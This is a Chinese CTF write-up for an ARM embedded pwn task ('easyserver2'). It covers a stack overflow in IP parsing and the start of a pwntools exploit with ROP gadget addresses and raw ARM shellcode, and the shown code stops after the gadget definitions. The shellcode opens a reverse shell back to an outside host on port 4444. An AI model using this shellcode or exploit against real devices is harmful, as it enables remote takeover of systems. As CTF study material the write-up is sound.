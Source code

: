 ![](https://hackmd.summershrimp.com/uploads/upload_4c14b10250a5a017cb552b719b7cab12.png)

### 本题华点

rop和shellcode调了好久，坑点:

1. 这块板子使用的是arm926核心的处理器，其指令集是armv5，虽然支持mmu，但是并不支持NX bit。因此不管编译选项有没有开NX，实际运行的时候都是没有NX的。
2. 嵌入式rootfs常用的busybox，在启动/bin/sh的时候 argv[0]必须是"sh"， 直接传`argv=NULL`是无法启动的。因此rop了半天都不成功

因此，写出来一套shellcode后，后面的pwn题都可以秒杀了。


## easyserver2


漏洞： 解析ip的时候栈溢出

```
int __fastcall read_from_remote(char *ip, int size)
{
  

  for ( idx = 0; ip[idx] != ':'; ++idx )
    stack[idx] = ip[idx];                       // 拷贝ip
```


首先 rop 利用 r1 得到栈地址，然后jmp shellcode.

exploit：

```
from pwn import *

context.log_level = "debug"



p = remote("20.21.2.27", 59809)


sh_jmper = "\x80\x10\x81\xe2\xc4\x10\x81\xe2\x31\xff\x2f\xe1\x02\x00\xa0\xe3\x01\x10\xa0"

shellcode = "\x02\x00\xa0\xe3\x01\x10\xa0\xe3\x02\x20\x42\xe0\xc8\x70\xa0\xe3\x51\x70\x87\xe2\x00\x00\x00\xef\x00\x40\xa0\xe1\x64\x10\x8f\xe2\x01\x20\xc1\xe5\x10\x20\xa0\xe3\x02\x70\x87\xe2\x00\x00\x00\xef\x3f\x70\xa0\xe3\x04\x00\xa0\xe1\x01\x10\x41\xe0\x00\x00\x00\xef\x04\x00\xa0\xe1\x01\x10\xa0\xe3\x00\x00\x00\xef\x04\x00\xa0\xe1\x02\x10\xa0\xe3\x00\x00\x00\xef\x30\x00\x8f\xe2\x02\x20\x42\xe0\x00\x10\xa0\xe1\x05\x10\x81\xe2\x00\x60\xa0\xe1\x80\x60\x86\xe2\x00\x10\x86\xe5\x04\x20\x86\xe5\x06\x10\xa0\xe1\x07\x20\xc0\xe5\x0b\x70\xa0\xe3\x00\x00\x00\xef\x02\xff\x11\x5c\x14\x15\x02\x1a\x2f\x62\x69\x6e\x2f\x73\x68\x00"



# .text:00052494                 STR     R3, [R1]
# .text:00052498
# .text:00052498                 ADD     SP, SP, #0xC
# .text:0005249C                 POP     {R4-R9,PC}


str_r3_r1 = 0x00052494


# .text:0002AC80                 POP     {R0,R4,PC}


r0_r4_pc = 0x002AC80


```